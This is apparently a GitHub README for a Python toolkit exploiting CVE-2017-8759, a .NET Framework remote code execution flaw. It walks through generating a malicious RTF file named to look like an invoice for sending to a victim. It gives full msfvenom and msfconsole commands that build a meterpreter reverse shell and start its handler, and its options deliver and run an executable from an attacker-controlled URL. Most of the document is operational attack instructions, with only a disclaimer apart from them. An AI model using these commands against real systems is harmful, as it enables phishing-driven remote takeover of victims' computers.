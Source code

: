 ## Exploit toolkit CVE-2017-8759 - v1.0

Exploit toolkit CVE-2017-8759 - v1.0 is a handy python script which provides pentesters and security researchers a quick and effective way to test Microsoft .NET Framework RCE. It could generate a malicious RTF file and deliver metasploit / meterpreter / other payload to victim without any complex configuration. 

### Disclaimer

This program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (bhdresh) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using this program you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not bhdresh's responsibility.

Finally, this is a personal development, please respect its philosophy and don't use it for bad things!

### Licence

CC BY 4.0 licence - https://creativecommons.org/licenses/by/4.0/

### Release note:

Introduced following capabilities to the script

	- Generate Malicious RTF file
	- Exploitation mode for generated RTF file

Version: Python version 2.7.13

### Scenario: Deliver local meterpreter payload
###### Video Tutorial: https://www.youtube.com/watch?v=46jEa1bmORM
###### Example commands
	1) Generate malicious RTF file
	   # python cve-2017-8759_toolkit.py -M gen -w Invoice.rtf -u http://192.168.56.1/logo.txt
	2) (Optional, if using MSF Payload) : Generate metasploit payload and start handler
	   # msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f exe > /tmp/shell.exe
	   # msfconsole -x "use multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.56.1; run"
	3) Start toolkit in exploit mode to deliver local payload
	   # python cve-2017-8759_toolkit.py -M exp -e http://192.168.56.1/shell.exe -l /tmp/shell.exe

### Command line arguments:

    # python cve-2017-8759_toolkit.py -h

    This is a handy toolkit to exploit CVE-2017-8759 (Microsoft .NET Framework RCE)

    Modes:

    -M gen                                          Generate Malicious file only

         Generate malicious RTF file:

          -w <Filename.rtf>                   Name of malicious RTF file (Share this file with victim).

          -u <http://attacker.com/test.txt>   Path of remote txt file. Normally, this should be a domain or IP where this                                          tool is running.
	                                          For example, http://attackerip.com/test.txt (This URL will be included in 	                                              malicious RTF file and will be requested once victim will open malicious RTF file.

					      
    -M exp                                          Start exploitation mode

         Exploitation:
	  
          -p <TCP port:Default 80>            Local port number.

          -e <http://attacker.com/shell.exe>  The path of an executable file / meterpreter shell / payload  which needs to be executed on target.

          -l </tmp/shell.exe>                 Specify local path of an executable file / meterpreter shell / payload.

### Author

@bhdresh

### Credit

@Voulnet, @vysec, @bhdresh

### Bug, issues, feature requests

Obviously, I am not a fulltime developer so expect some hiccups

Please report bugs, issues through https://github.com/bhdresh/CVE-2017-8759/issues/new
